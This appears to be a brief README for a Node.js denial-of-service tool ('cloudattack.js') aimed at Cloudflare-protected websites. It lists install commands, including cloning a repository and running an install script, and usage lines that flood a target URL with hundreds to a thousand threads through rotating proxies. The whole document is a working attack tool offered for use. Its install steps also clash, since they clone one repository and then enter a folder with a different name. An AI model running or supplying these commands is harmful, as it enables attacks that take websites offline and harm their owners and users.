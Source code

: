 Install on Kali/Debian

npm install
npm install minimist
npm install cloudscraper

git clone https://github.com/W3b38/ProxyAttack.git
cd CloudAttack
chmod +x install.sh
./install.sh

Run: node cloudattack.js --attack "yoursite" --threads 500 
Proxys: --proxy true --updateproxy true


Example: node cloudattack.js --attack "https://www.acloudflaresite.com" --threads 1000 --proxy true
